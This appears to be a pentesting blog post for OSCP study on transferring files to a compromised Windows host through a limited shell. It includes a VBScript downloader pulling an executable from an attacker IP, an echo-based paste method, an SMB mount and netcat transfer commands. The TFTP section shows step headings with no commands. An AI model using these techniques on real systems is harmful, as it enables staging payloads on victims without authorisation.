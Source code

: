 ```yaml
---
layout: post
title: "4 Ways to Transfer Files With a Limited Shell"
date: 2017-04-22 08:42:48
image: '/assets/img/'
description: How I transfer files to a windows host with limited shell
tags: oscp HowTo
categories: OSCP Research
twitter_text: Transfering Files With a Limited Shell
---
```


Commonly during pentests I might be stuck on getting a file over to a system with only a limited shell. To be honest, this problem has mostly occurred to me on Windows so the solutions below will all work on Windows.

# Echo One Line at a Time

The first method is to prefix the “echo” command to the beginning of each line and redirect the output to a file. You would then be able to simply paste the script into the limited shell and your file will be transferred. This method would really only be useful to transfer ASCII only files. However, you would be able to transfer a vbscript of PowerShell file to the victim and then use that to download the actual file.

For example, the following script:

```VB.net
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://10.0.0.100/file.exe", False
xHttp.Send
with bStrm
    .type = 1 '
    .open
    .write xHttp.responseBody
    .savetofile "C:\Users\admin\Desktop\file.exe", 2 '
end with
```

Would get “echo” prefixed and “>> down.vbs” appended using the following commands:

```bash
sed -i -e 's/$/echo /' down.vbs
sed -i -e 's/$/ \>\> down.vbs/' down.vbs
```

Make sure there are no empty spaces or you will get “ECHO is on.” added into your output. All that is left is to paste your script into your shell and viola! You have transferred a file.

Another option to transfer a non-ascii file is to encode it, transfer it using the echo method, and decode it on the other side but I prefer loading a downloader.

You can also use this method if you have limited RCE through a web application and use Burp’s intruder to run the commands. If you decide to go down this route, make sure that you throttle intruder so that the “echo” commands do not run out of order.

# TFTP

Another other option is to start up a TFTP server and use windows native TFTP client to connect to your server. Note that only Windows XP had tftp enabled by default. Windows Vista to Windows 10 all need to be enabled.
On the server
Set up the folder:
Start the server:
Move your file:
On the Client
Download the file:

# SMB Mount

The next option would be to set up an SMB share on a server (Could be on your kali box or another windows server in the network that has already been compromised). You can mount the SMB share to the Windows victim using the following command:

```bat
net use Z: \\host\share /PERSISTENT:YES
```

# Netcat

This one is the classic use of the nc command. Obviously, this would only work if you already have nc or ncat installed on the windows host, but hey, maybe you got lucky. 
On the host you are trying to transfer to run:

```bash
nc –l –p 3000 > file_name
```
On the host you are trying to transfer from run:

```bash
nc ipOrHostname 3000 < file_name
```
